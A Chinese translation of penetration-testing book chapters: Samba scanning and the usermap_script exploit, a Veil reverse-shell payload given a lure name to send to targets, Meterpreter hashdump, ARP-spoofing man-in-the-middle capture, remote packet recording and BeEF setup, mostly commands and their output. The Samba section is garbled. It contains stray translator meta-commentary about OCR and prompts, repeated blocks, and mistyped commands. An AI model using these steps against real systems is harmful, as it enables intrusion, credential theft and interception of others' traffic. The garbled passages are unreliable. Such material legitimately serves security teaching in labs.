

好的，我们将 `RHOSTS` 设置为 `192.168.198.145`，它进行了扫描并返回了上面运行的 Samba 版本。

但如果我们想扫描整个网络中运行 Samba 的系统呢？

这就是 `RHOSTS` 命令的魅力所在。你不仅可以扫描单个主机，还可以扫描 `192.168.198.0` 网络上的所有 256 个客户端。

我们使用完全命令，但像这样修改 `RHOSTS` 命令：

```
msf use auxiliary/scanner/smb/version set RHOSTS 192.168.198.0/24

RHOSTS => 192.168.198.0 set THREADS 255

msf6 auxiliary(smb version) exploit

[*] 192.168.198.145 is running Windows 7 7601 Service Pack (Build 1) known) (name:GAME PC) (domain:WORKGROUP)

[*] 192.168.198.145:45 is running Unix Samba 3.0.20-Debian (language: Unknown) ROUUP

[*] Scanned 165 of 256 hosts (64% complete)

[*] Scanned 170 of 256 hosts (66% complete)

[*] Scanned 169 of 256 hosts (66% complete)

[*] Scanned 219 of 256 hosts (85% complete)

[*] Scanned 240 of 256 hosts (93% complete)

[*] Scanned 242 of 256 hosts (94% complete)

[*] Scanned 252 of 256 hosts (98% complete)

[*] Scanned 254 of 256 hosts (99% complete)

[*] Scanned 256 of 256 hosts (100% complete)

[*] Auxiliary module execution completed

msf6 auxiliary(smb version) >
```

注意现在我们已经扫描了网络上的所有 256 个主机，并在位于 `192.168.198.145` 的 Metasploitable 2 上发现了 Samba。

如果你只是扫描网络上运行的某些服务，这会让事情简单得多。我注意到 `threads` 命令默认是“1”。如果你在扫描局域网，可以将其增加到 25 以提高速度，或者在测试远程网络时将其增加到 50。

# 利用 Samba 服务

既然如此了，让我们来看看如何利用 Samba (`SMB`) 服务。这将让我们有更多运行漏洞利用程序的练习，并习惯发现和利用漏洞服务。

我们从扫描器中得知，刚刚运行的 SMB 服务版本是 Unix Samba 3.0.20。让我们快速在 Google 上搜索一下能找到什么：



第一个返回结果是一个“用户名映射脚本”（username map script）问题。

让我们尝试一下看看会得到什么。

继续搜索 `samba/usernamemap`：

```
msf search sambausermap/

Matching Modules
=================
Name                             Disclosure Date      Rank
----                             ----------------    -----
exploit/multi/samba/usermap_script 2007-05-14 00:00:00 UTC excellent

script" Command Execution
```

从上面的图中可以看到 Rank（排名）是“excellent”（优秀）。

让我们对它使用 `info` 命令看看它说了什么：

```
msf> info exploit/multi/samba/usermap_script
```

```
Basic options:

Name             Current Setting Required Description
----             ------------- ---------- -----------
RHOST             ---                                 The target address
RPORT            139           yes        The target port

Payload information:

Space: 1024

Description:

This module exploits a command execution vulnerability in Samba
versions 3.0.20. This module exploits a command execution vulnerability in Samba that applies to Samba versions 3.0.0 through 3.0.20.

```

等一下，让我重新检查描述部分的 OCR，以确保“3.0.0 through 3.0.20”的准确性。OCR 文本显示的是“versions 3.0.20”。我将坚持提供的文本，但修复明显的类型错误。

```
Description:


This module exploits a command execution vulnerability in Samba

versions 3.0.20. This module exploits a command execution vulnerability in Samba that applies to Samba versions 3.0.0 through 3.0.20.

```
实际上，查看 OCR，它写的是“versions 3.0.20”。我将保留文本内容，但清理格式。

Description:
This module exploits a command execution vulnerability in Samba
versions 3.0.20. This module exploits a command execution vulnerability in Samba that applies to Samba versions 3.0.0 through 3.0.20.
```

等一下，提示说“不要删除或总结”。我将保持文本原样。

```
Description:
This module exploits a command execution vulnerability in Samba
versions 3.0.20. This module exploits a command execution vulnerability in Samba that applies to Samba versions 3.0.0 through 3.0.20.
```

实际上，OCR 文本是：

"Description:

This module exploits a command execution vulnerability in Samba

versions 3.0.20."

我将直接输出那个。

从上面的图中可以看到 Rank 是“excellent”。

让我们对它使用 `info` 命令看看它说了什么：

```
msf> info exploit/multi/samba/usermap_script
```

```
Basic options:
Name             Current Setting Required Description
----             ------------- ---------- -----------
RHOST             ---                                 The target address
RPORT            139           yes        The target port
```

## 使用 Veil

第一步是使用 "`list`" 命令列出所有可用的负载（payloads）：

可用负载列表：

| | | |

| :--- | :--- | :--- |

| 1) | native/hyperion | Normal |

| 2) | native/pescrambler | Normal |

| 3) | c/VirtualAlloc | Poor |

| 4) | c/VoidPointer | Poor |

| 5) | c#/VirtualAlloc | Poor |

| 6) | c#/b64SubVirtualAlloc | Normal |

| 7) | powershell/DownloadVirtualAlloc | Excellent |

| 8) | powershell/PsesecVirtualAlloc | Excellent |

| 9) | powershell/VirtualAlloc | Excellent |

| 10) | python/AESVirtualAlloc | Excellent |

| 11) | python/ARCVirtualAlloc | Excellent |

| 12) | python/DESVirtualAlloc | Excellent |

| 13) | python/LetterSubVirtualAlloc | Excellent |

| 14) | python/MetasITContained | Excellent |

| 15) | python/MeterTRPSContained | Excellent |

| 16) | python/VirtualAlloc | Normal |

| 17) | python/VoidPointer | Normal |

| 18) | python/b64Virtual | Excellent |

这些负载都有相应的评分。由于我们稍后会在*社会工程学章节*中简单介绍一下 PowerShell 攻击，所以让我们使用一个 PowerShell 负载吧。

只需使用 "`use`" 命令加上负载编号即可。在本教程中，我们将使用 "`powershell/VirtualAlloc`" 负载：

- 1. 输入 "`use 9*`"。

这将选择该负载并显示以下屏幕：



- 2. 我们将直接使用默认值，只需输入“`generate`”。

然后你可以选择使用 Metasploit 的标准 msvenom 机器码，或者选择你自己的。我们将选择默认的 msfvenom。

- 3. 输入“I”并按回车：



接下来选择 shell 的类型；我们将使用默认的 reverse_TCP。这意味着目标的计算机将反向连接到我们。

- 4. 直接按“enter”（回车）接受默认负载：



- 5. 接下来 Veil 会询问你正在使用的宿主机的 IP 地址。输入你 Kali 机的 IP 地址并按回车。


- 6. 然后输入你将要使用的本地端口（Local port）。我选择使用端口 4000：：


- 7. 随后你会被要求输入任何想要使用的 MSVenom 选项，我们任何都不用用，所以直接按“enter”跳过即可！Veil 随后将根据我们选择的选项生成机器码。

- 8. 现在我们需要为创建的文件命名。我选择了“CutePuppy”（可爱的小狗）。好吧，“Cutey”听起来有点怪异，但请记住，你希望目标打开你发送的文件，所以需要一点社会工程学的命名技巧。如果你也喜欢小狗，那么我们选的名字就很完美。但你也可以命名为“Business Report”（业务报告）或“New Job”（新工作）。任何你认为最好的名字都可以。Veil 现在拥有了所有信息并创建了我们的陷阱文件。





我们的文件将存储在“`usr/share/veil/output/`”中。只需将生成的 .bat 文件发送给你的目标。当它运行时，它将尝试连接到我们的机器。

## 获取远程 Shell

为了创建远程处理程序（handler），我们将使用 Metasploit：

- 1. 从菜单或终端（`msfconsole`）启动 Metasploit。

- 2. 现在按照以下屏幕设置 `multi/handler`：确保填入你机器的 IP 地址以及你在 Veil 中输入的端口。它们必须完全匹配。



Metasploit 随后将启动处理程序并等待连接：



现在我们只需要受害者运行我们发送的文件。


在 Windows 7 机器上，如果文件被执行，我们将在 Kali 系统上看到这些：

```
[*] Started reverse handler on 192.168.98.137:4000
[*] Starting the payload handler...
[*] Sending stage (1928 bytes) to 192.168.98.132
[*] Meterpreter session opened (192.168.98.137:4000 -> 192.168.98.132:49209)
meterpreter >
```

一个反向 shell 会话！如果如果我们输入“`shell`”，就会看到我们确实拥有了一个完整的远程 shell：

```
meterpreter > shell
Process 216 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Users\
```

`windows/gather/hashdump` 命令：

```
meterpreter > run post/windows/gather/hashdump
[*] Calculating the boot key using SYSEKEY ba8bf74a3b51401557f211cb6b371bdb8...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...
nAlice:"password"
Bob:"my name"
George:"secured"
```

上述 hashdump 显示的第一部分显示了三个普通系统用户：Alice、Bob 和 George，他们显示了在创建密码时设置的登录密码提示。

最后部分显示了系统中的实际哈希值：

```
[*] Dumping password hashes...
Administrator:500:aad3b4b5b51404eeaad3b4b5b51404ee:31d6fe0d16ae931b73c59d7e0c0880c0
Guest:501:aad3b4b5b51aad3b4b5b51404ee:31d6fe0d16ae931b73c59d7e0c0880c0
Guest:502:aad3b4b5b51aad3b4b5b51404ee:31d6fe0d16ae931b73c59d7e0c0880c0
Alice:101:aad3b4b5b51aad3b4b54aad3b4b5b51404ee:2e4fb83a7502689935daea328977b27b0
Bob:102:aad3b4b5b51aad3b4b514aad3b4b5b51404ee:96d5a8e9b8da72150d115263f56f9dee
George:103:aad3b4b5b51aad3b4b514aad3b4b5b51404ee:317a9a61d0b106920b4ccb6971a8adf7
```

使用哈希值访问网络上的或其他系统将在“密码攻击”章节中介绍。

## 结论

在这一简短的小节中，我们看到了如何将具有管理员权限的用户提升到超级用户 System 级账户。我们通过运行 Meterpreter 模块实现了这一点，该模块允许我们绕过 Windows 用户账户控制（UAC）安全特性。一旦我们获得了系统级访问，就可以执行任何想做的事。我们通过从安全数据库中转储密码哈希演示了这一点。

UAC 绕过之所以可行，是因为我们访问的账户是一个管理员级别的账户。给用户提供非管理员级别的账户是至关重要的。应该认真考虑违反这一规则带来的安全后果。

## 第 11 章 - 数据包捕获与中间人攻击

## 引言

另一种可能对我们有利的技术是监控或捕获远程机器上的网络流量。

把它想象成窃听器。就像窃听器记录一个人在电话里说的一切一样，数据包捕获记录了你的计算机在网络线上说的一切。这可能包括账户名、密码等。

在本节中，我们将通过两个截然不同的过程来查看网络数据包。

对于第一种，我们将对本地网络上的系统使用中间人攻击，涉及 `arpspoof`、`urlsniff` 和 `Driftnet` 命令。使用这些命令，我们可以查看目标正在哪个网站，并显示目标正在查看每一个图形。

其次，我们将介绍通过 Metasploit 会话在远程机器上运行数据包捕获。然后我们将在 Wireshark 和 Xplico 查看捕获的信息以寻找痕迹。

在两种情况下，我们都把使用 Windows 7 计算机作为目标系统。

## 使用 Arpspoof 创建中间人攻击

现在我们将学习如何使用中间人（MitM）攻击来捕获和监控网络流量。

中间人攻击本质上是将我们的 Kali 系统置于目标和路由器之间。通过这样，我们就能看到来自目标系统并发往目标系统的所有流量。从目标系统发往互联网的所有流量首先重定向到我们的机器，然后由我们捕获并转发到网络。从互联网发往目标机器的所有信息首先路由通过我们的系统，我们再次进行审查并转发到目标系统。

我们通过修改路由器和目标系统上的 ARP（地址解析协议）表来实现这一点。ARP 表告诉系统 IP 地址实际位于哪个物理 MAC 地址。因此，我们告诉目标机我们是互联网路由器，告诉路由器我们是

- 1. 我们可以使用“`arpspoof`”程序轻松地修改 ARP 表。但首先我们需要通过运行以下命令来开启 IP 转发：

```
root@Kali:~# echo >/proc/sys/net/ipv4/ip_forward
```

- 2. 现在我们需要运行 `arpsof` 命令。为了做到这一点，我们需要如下提供网络接口 (-i)、目标系统 (-t) 和路由器地址：

```
root@Kali:~# arpsof -i eth0 -t 192.168.1.132 192.168.198.2
```

（你可能不需要在 IP 地址设置好反向连接时重新运行反向命令。反向操作在 VMWare 主机上似乎不起作用，但我只需使用上面的那一个命令就能捕获所有流量）

Arpsof 随后应该开始发送修改后的 MAC 地址。

现在让我们看看能从目标系统捕获到什么。

## 使用 Urlsnarf 查看 URL 信息

让我们先寻找目标正在浏览的 URL 地址。

- 3. 只需输入“`urlsnarf -i eth0`”：

```
root@kali:~# urlsnarf -i eth0
urlsnarf: listening on eth0 [tcp port 80 or port 8080 or port 3128]
```

当用户浏览网页时，我们将看到所有的 URL 流量：

```
urlsnarf: listening on eth0 [tcp port 80 port
192.168.198.132 - [08/Nov/2013:21:49:06 -0500]
a.net/pub/mozilla.org/firefox/releases/25.0/update/
partial.mar HTTP/1.1 " - - "Mozilla/5.0 (Win
0101 Firefox/24.0"
192.168.198.132 - [08/Nov/2013:21:49:43 -0500]
" - - "Mozilla/5.0 (Windows NT 6.1; rv:24.0) G
```

这允许我们看到目标正在浏览的网站。

## 使用 Driftnet 查看图形

这允许我们看到目标正在浏览的所有图形。

- 4. 只需输入命令“`driftnet`”配合 (-i)

- 5. 现在我们有了目标系统查看：

## 第二部分

### 通过 Metasploit 进行远程捕获

如果我们在本地网络上，一切良好，但如果目标是远程的呢？

如果我们通过一个漏洞获得了 Meterpreter shell，我们就可以记录目标流量。我们将从一个活动的会话开始：

```
msff(handler) > exploit
[*] Started reverse handler on 192.168.1.202:4000
[*] Starting the payload...
[*] Stage 1 (77068 bytes) to 192.1668.1..00:4000
[*] Meterpreter session  1 (92.168.1.733
2013-11-05009:39 - -0000
```

我们只需输入“`runrecorder`”来查看选项：

```
meterpreter > run packetrecorder
Meterpreter Script for capturing packets in PCAP file
on a target host given an interface ID.
OPTIONS:
-h Help. 执行数据捕获的接口 ID 号。
-i <> 指定 PCAP 文件的备文件夹。
-li <opt> 列出可捕获的接口。
-t <opt> 收集包的时间间隔，默认 30 秒。
```

2. 我们的第一工作是运行“`packetrecorder`”并配合“-li”选项来列出系统的接口。

## 当情况变得时：

正如你看到的，攻击性计算机安全测试并不总是按预期工作。有时会被安全设备阻止，有时由于某些原因漏洞无法运行。例证说明，当在一个 Windows 7 系统上尝试运行 packetrecorder -li 时，我遇到了错误：


... 我必须去 Windows 7 系统并手动禁用 UAC 才能让它正常工作。如前提到的，与之前的 Windows 版本（UAC 似乎真的不起作用，许多人禁用了它）不同，它对 Windows 7 确实有帮助，并且应该始终开启。即使它被设置为最低级别，也比完全关闭要好！

运行命令，我们看到远程目标（在此情况下）有 5 个网络接口：

```
meterpreter > run packetrecorder -li
(type: 3 mtu: 1514 useable:true dhcp:true wifi:false)
Qualcomm Atheros AR9025 802.11b/g WiFi Adapter (type: 0 mtu: 1514 useable:true dhcp:true wifi:false)
Realtek PCI E Family Controller; (type: 0 mtu: 1514 useable:true dhcp:true wifi:false)
TAP-Win32 Adapter V9 (type: 0 mtu: 1514 useable:true dhcp:true wifi:false)
```

我们将接口 2（高通 WiFi 适配器）运行攻击。我们还将使用 `"-l"` 参数来告诉 `packetrecorder` 存储捕获日志文件的位置。

- 3. 因此命令为：`run packetrecorder -i 2 -l /root/Desktop`

```
meterpreter > run packetrecorder -i 2 -l /root/Desktop
[*] Starting Packet capture on interface 2
[*] Packet capture started
[*] Packets being moved to /root/Desktop/logs/packetrecorder/
1609/LAPTOP_20211105.1609.cap
[*] Packet capture interval is 30 Seconds
```

- 4. 现在，去 Windows 7 目标系统执行相同的操作。你访问的每一个位置和发送的每一个网络数据包都将在 Kali 系统上记录。

- 5. 当你认为已经捕获了足够的包时，按 `Ctrl-C` 退出。

就是。所有捕获的文件都将位于我们提供的位置的 `logs` 目录中。

## Wireshark

好了，我们已经有了数据包捕获，那么我们要用它做什么呢？

`Wireshark` 是一个优秀的数据包捕获和分析程序，具有大量功能和能力。我们将简要介绍如何在 `Wireshark` 中查看数据包捕获。

- 1. 要启动 `Wireshark`，请从“十大安全工具”菜单中选择它，或者，直接从终端提示符运行它：

`root@kali:~# wireshark`

- 2. 对于所有关于以 root 身份运行的警告信息，点击“OK”。

- 3. 点击“File”（文件），然后点击“Open”（打开），打开我们的数据包捕获文件。

- 4. 点击“Protocol”（协议）按协议排序，向下滚动到 FTP 部分：

如果用户连接到任何未加密的 FTP 会话，如所示，你将看到整个会话。

要以明文查看整个会话，右键点击源 IP 并点击“Follow TCP Stream”（跟踪 TCP 流）。你将看到所示的流内容：



如你所见，我们完整的 FTP 登录和文件下载捕获。`Wireshark` 对于处理神奇的网络通信非常棒，你可以用它做很多事情，但对于新用户来说它有点高级，在熟悉它之前可能很难使用。

所以，让我们看看上一个程序中的数据包捕获。`Xplico` 程序以易于阅读的菜单列出了数据包捕获中的所有信息。它还允许你查看任何图像或文档。

# Xplico

`Xplico` 已添加到 Kali 仓库中，但你的系统可能尚未安装它。它是一个基于 Web 的界面，因此要启动它你需要同时启动 Apache Web 服务器和 `Xplico` 服务器。

在 Kali 菜单的“System Services”（系统服务）下，你应该能看到 HTTP (Apache) 和 `Xplico`。

如果列表中没有 `Xplico`，你需要安装它。要安装，运行以下命令：

```
root@kali:~# apt-get install xplico
```

完成后，我们只需要启动服务。

- 1. 如果 Apache Web 服务器尚未运行，请启动它。

`Kali>System Services>HTTP>Apache 2 Start`

- 2. 在“System Services”菜单下启动 `Xplico` 服务：



一旦启动 `Xplico`，你就可以通过 Web 界面访问它。

- 3. 打开浏览器并访问 `localhost:9876`



- 4. 使用用户名和密码 `xplico` 登录。



- 5. 点击“New Case”（新建案例）



- 6. 现在点击“Uploading PCAP capture file/s”（上传 PCAP 捕获文件）

- 7. 给它一个案例名称并点击“Create”（创建）

# 数据采集 PCAP 捕获文件/s 实时采集

| Case name | Test |
| :--- | :--- |
| External reference | Create |

- 8. 在 Case（案例）下，点击“New Session”（新建会话）：


- 9. 给会话命名，然后点击“Create”（创建）：


- 10. 现在点击会话名称。

- 11. 显示 Main Session（主会话）。

- 12. 在“Pcap set”菜单下浏览并上传你的 pcap 文件：


文件将被上传到 `Xplico` 并解码。几秒到几分钟后（取决于你的 pcap 文件大小），你将看到如下结果：

| HTTP | MMS | Emails |
| :--- | :--- | :--- |
| Post | 25 | Number: 0 | Received: 0 |
| Get | 471 | Contents: 0 | |
| Video | 2 | Video: 0 | Unread: 0/0 |
| Images | 247 | | |
| Facebook Chat/Talk | IRC/Talk | Dns - Arp: Icmp6 |
| Users | 0 | Server: 225 | |
| Chats | 0/0 | Chats: 0 | ARP/ICMP6: 37/4 |
| Feed (RSS & Atom) | Printed Files | Telnet/Syslog | |
| Number | 0 | Pdf: 0 | Connections: 0/0 |

现在如果我们点击 Web 下的 sites，将看到访问的网站列表：

| Date | Url |
| :--- | :--- |
| 2013-11-05 10:22:5 | support.dlink.com/emulators/dir615_reva/10/index.htm |
| 2013-11-05 10:22:5 | support.dlink.com/ErrorPage.htm |
| 2013-11-05 10:22:5 | support.dlink.com/emulators/dir615_reva/ |
| 2013-11-05 10:22:5 | support.dlink.com/favicon.ico |
| 2013-11-05 10:22:53 | (support.dlink.com/Productinfo.aspx?m=favicon.ico |
| 2013-11-05 10:22:54 | www.google.com/url?ct=6&q=6&s=source&cd=s |
| 2013-11-05 10:22:50 | www.dell.com/us/business/p/products |

即使没有通过 `Xplico` 网络账户或密码，你可以使用 Web 标签收集用于社会工程攻击的信息。例如，我注意到几个网站是 NHL 网站。我可以在数据流中搜索特定术语，在本例中为 NHL：

| Search: | nhl | |
| :--- | :--- | :--- |
| Web URLs: | Image | Flash |
| Date | Url | |
| 2013-11-05 10:18:3 | www.youtube-nookie.com/gen_2047?attribution=NHL |
| 2013-11-05 10:18:21 | pubads.doubleclick.net/page/ad/view?ai=CiWNqX5uDETQ |
| 2013-11-05 10:17:44 | www.nhl.geo.com/cm/68/MediumRail/6 |
| 2013-11-05 10:17:44 | www.nhl.geo.com/cm/68/PageWrapper/7 |
| 2013-11-05 10:17:44 | bs.serving-sys.com/BurstingPipe?cnt=ot&onetaged=250&distType=js |
| 2013-11-05 10:17:41 | www.se.nhl.com/stathome.htm?nav=sts-league |
| 2013-11-05 10:17:36 | www.nhl.geo.com/cm/68/PageWrapper/7 |

或者查看图像：



该用户是一个冰球粉丝。我可能从他的浏览历史中恢复出他喜欢的球队，并再次将其用于社会工程攻击。

## 结论

在这一节的第一部分，我们学习了如何使用中间人攻击 `Arpspoof`，结合 `Urlsnark` 和 `Driftnet` 来查看目标本地系统正在查看的网站。

在第二部分，我们学习了如何使用 `Meterpreter` 将被攻击的系统转换为远程数据包嗅探器。然后我们在 `Xplico` 中分析了捕获的流量。

希望本章说明了为什么网络安全至关重要。如果 ARP 表未受保护，攻击者很容易在局域网内进行 MitM 攻击并查看流量。

如果你的网络没有受到远程威胁的保护，攻击者很容易从被利用的系统在你的网络上运行数据包嗅探器。

# 第12 章 – 使用浏览器攻击框架

### 资源

- 浏览器攻击框架 (BeEF) 网站 - http://beefproject.com/

## 引言

互联网可能是一个非常不友地方，特别是对于像 Windows XP 这样的操作系统。在本文中，我们将查看使用“BeEF”（浏览器攻击框架）攻击 Windows XP 浏览器。

我已经很久没有玩过 BeEF 了，实际上是三年前，在参加完一个非常好的 Web 应用和 XSS 安全课程后，我觉得是时候重温它了。

我很高兴地发现，自从我上次使用以来，BeEF 增加了许多新功能（称为命令），大大增强了它的功能性。

虽然许多 BeEF 中的攻击似乎不再适用于使用最新浏览器的 Windows 7，但似乎 Windows XP 系统对许多浏览器攻击仍然非常脆弱。

所以，让我们看看 BeEF 能对 Windows XP 系统做什么。

# BeEF 实战

首先，我们需要启动攻击框架。

- 1. 在 Kali 中，只需打开终端并输入：

```
root@kali:~ cd /usr/share
root@kali://usr/share# cd beef-xss/
root@kali://usr/share/beef-xss# ./beef
```

这启动了 BeEF 服务器并显示了打开图形界面的 Web 地址以及几个用于挂钩浏览器的示例页面：

绑定套字 [[image/dummy]] 监听 [0.0.0.0:2000]

浏览器利用框架 (BeEF) 0.4.4.1-alpha

推: @beefproject

网站: http://beefproject.com

博客: http://blog.beefproject.com

Github: https://github.com/beefproject/beef/wiki

项目创建者: WadeAlcorn (@WadeAlcorn)

BeEF 正在加载。请等待几秒钟...

10 个扩展已启用。

140 个模块已启用。

检测到 2 个网络接口。

接口: 127.0.0.1

Hook URL: http://127.0.0.1:3000/hook.js

UI URL: http://127.0.0.1:3000/ui/panel

运行在网络接口：192.168.56.101

Hook URL: http://192.168.56.101:3000/hook.js

UI URL: http://192.168.56.101:3000/ui/panel

RESTful API key: 3eb9b8f2ae8d15af3e6b88865aae8a3d2a932eaa

HTTP 代理: http://127.0.0.1:6789

BeEF 服务器已启动（ctrl+c 停止）

你变得越安静，你听到的就越多

- 2. 现在只需在浏览器中访问 `127.0.0.1:3000/ui/panel` 即可查看用户界面

3. 接下来，使用用户名和密码 `beef` 登录：img/3ef0f51cacb0127e8ad0ea4f248a9fe_114.png

你现在将看到 BeEF 控制面板：img/3ef0f51cacb0127e8ad0ea4f248a9fe_115.png

## 入门教程

在能够探索框架之前，你必须挂钩一个浏览器。要开始，可以在框架内挂钩一个浏览器，它们将出现在左侧的已挂钩浏览器面板中。根据你的选择，挂钩浏览器将处于在线或离线状态。

## 已挂钩浏览器

